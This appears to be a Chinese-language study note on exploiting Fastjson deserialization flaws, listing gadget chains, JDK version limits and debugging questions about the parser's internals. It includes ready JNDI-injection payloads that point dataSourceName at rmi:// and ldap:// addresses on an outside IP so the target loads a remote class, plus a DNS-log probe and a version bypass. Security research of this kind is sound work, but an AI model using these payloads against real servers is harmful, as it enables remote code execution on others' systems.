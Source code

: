 # fastjson全教程
https://www.rc.sb/fastjson/#fastjson1280
https://y4er.com/posts/fastjson-learn
https://paper.seebug.org/994/
## fastjson1.2.80 poc
https://github.com/YoungBear/FastjsonPoc

# 工具
## fastjson-blacklist(hash解码)
https://github.com/LeadroyaL/fastjson-blacklist

# poc
## dnslog验证
{"x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}
## 1.com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
鸡肋
常规的Java字节码的执行，但是需要开启Feature.SupportNonPublicField，比较鸡肋
## 2.com.sun.rowset.JdbcRowSetImpl
出网
用到的是JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，在目标没外网的情况下无法直接利用
### 低版本jdk-rmi协议
出网
6u132, 7u122, 8u113之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
### 低版本jdk-ldap协议
出网
6u211, 7u201, 8u191, 11.0.1之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"ldap://47.95.7.37:1389/Calc", "autoCommit":true}";
### c3p0
不出网
### 高版本jdk
不出网
开启 TomcatBeanFactoryServer 绑定恶意类到registry, 无需外部获取Factory, 利用本地tomcat依赖中的Factory
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
受害者本地需要有下面依赖
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>
```
并且需要如下任选其一作为BeanFactory加载的类, 来执行其中的eval表达式
```text
<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```
## 3.org.apache.tomcat.dbcp.dbcp2.BasicDataSource(1.2.42poc尝试了)
一个字节码的利用，但其无需目标额外开启选项，也不用连接外部服务器，利用条件更低
受害者本地需要有下面依赖, 并且jdk版本小于8u251, 版本限制是因为过高bcel无法使用
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```


# 疑问
1.TestDeSerialization中为什么会调用一次getter -> getProp2_2() is called
回答: 特殊的getter:
(1)字段是Map/Collection/AtomicLong/AtomicInteger/AtomicBoolean的子类 -> /com/alibaba/fastjson/util/JavaBeanInfo.java:504
(2)setter返回的类不是getter传入类的父类(基本上有setter又有getter的就无法执行getter了) -> com.alibaba.fastjson.util.JavaBeanInfo.add
(3)item.compareTo(field) < 0

2.为什么parseObject需要Feature.SupportNonPublicField？
没有setter的private为null 我们需要这个来为private赋值

3.为什么需要_outputProperties属性？
反序列化的时候会执行getter方法, 因为_outputProperties是Properties类型是Map的子类 在执行反序列化的时候会执行相应的getter
详见/com/alibaba/fastjson/util/JavaBeanInfo.java:504
并且会执行smartMatch方法去掉_
详见com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.smartMatch()

4._bytecodes为什么需要base64编码？
解析顺序如下:
_bytecodes
_name
_tfactory
_outputProperties

在com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze 这块执行String to byte[]

具体调用链如下:
deserialze:138, ObjectArrayCodec (com.alibaba.fastjson.serializer) [2]
parseArray:723, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:177, ObjectArrayCodec (com.alibaba.fastjson.serializer) [1]
parseField:71, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:78, FastJson1_LE1224


5._tfactory为什么为{}？
跟踪到这块的时候明明传入的是null, 结果进去就自动生成object了
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(com.alibaba.fastjson.parser.DefaultJSONParser, java.lang.reflect.Type, java.lang.Object, int)
排除debug本身的问题因为toString和上面那个选项都关掉了 有可能是代码有拦截器 -> FastjsonASMDeserializer_1_TransformerFactoryImpl
找到答案: asm生成类
com.alibaba.fastjson.parser.deserializer.ASMDeserializerFactory.createJavaBeanDeserializer
问题:
尝试学习asm

6.getOutputProperties()
fastjson-1.2.24-sources.jar!/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java:599

7.a
1.2.43如何调试出使用如下绕过?
{
"@type": "[com.sun.rowset.JdbcRowSetImpl"[{
"dataSourceName": "xxx",
"autoCommit": true
}


# 遇到的问题
多个版本的fastjson存在于External Libraries的时候无法运行调试